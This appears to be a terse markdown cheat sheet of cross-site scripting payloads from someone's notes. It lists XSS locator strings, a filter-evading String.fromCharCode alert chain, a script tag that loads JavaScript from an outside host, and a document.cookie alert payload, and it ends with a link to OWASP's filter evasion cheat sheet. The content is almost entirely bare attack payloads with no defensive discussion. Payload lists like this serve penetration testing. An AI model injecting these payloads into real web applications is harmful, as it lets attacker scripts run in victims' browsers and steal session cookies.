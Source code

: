 # xss
### xss Locator
```
"';!--"<XSS>=&{()}
```

```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//"; alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

### expoits

```
<script src=http://peniscorp.com/topkek.js>
```

```
<script>alert(document.cookie)</script>
```

### references
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
